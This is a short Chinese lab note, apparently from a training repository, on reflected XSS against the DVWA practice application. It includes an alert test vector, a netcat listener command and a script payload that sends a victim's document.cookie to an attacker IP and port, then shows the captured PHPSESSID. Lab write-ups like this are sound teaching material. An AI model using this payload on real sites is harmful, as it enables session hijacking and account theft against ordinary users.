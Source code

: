 ## XSS(Cross-Site Scripting)
- 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
- 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 攻击流程
1. 漏洞侦测
    - DVWA Security的安全级别设置为low
    - XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
2. 攻击环境配置与Payload(有效载荷)构建
    - Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
    - `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
    - Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
3. 结果观测
    - **浏览器端：**页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
    - **攻击机终端：**切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
   - **结论：**`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
<img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />
## 总结

